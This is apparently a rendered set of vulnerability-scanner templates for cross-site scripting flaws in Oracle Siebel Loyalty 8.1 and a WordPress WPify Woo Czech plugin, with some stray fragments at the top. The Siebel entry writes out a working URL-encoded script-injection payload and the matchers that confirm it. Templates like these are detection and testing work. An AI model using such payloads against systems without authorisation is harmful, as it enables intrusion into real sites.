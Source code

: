 - words
  1. text/html
- part - header

---

# Oracle Siebel Loyalty 8.1 - Cross-Site Scripting

## Description

- A vulnerability in Oracle Siebel Loyalty allows remote unauthenticated attackers to inject arbitrary Javascript code into the responses returned by the '/loyalty_enu/start.swe/' endpoint.
- severity - high
- tags - xss,oracle,siebel,packetstorm,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/loyalty_enu/start.swe/%3E%22%3E%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress WPify Woo Czech \<3.5.7 - Cross-Site Scripting

## Description

- WordPress WPify Woo Czech plugin before 3.5.7 contains a cross-site scripting vulnerability. The plugin uses the Vies library 2.2.0, which has a sample file outputting $\_SERVER['PHP_SELF'] in an attribute without being escaped first. The issue is only exploitable when the web server has the PDO driver installed and write access to the example directory.
- severity - high
- tags - wp,wordpress,xss,wp-plugin,wpify,wpscan
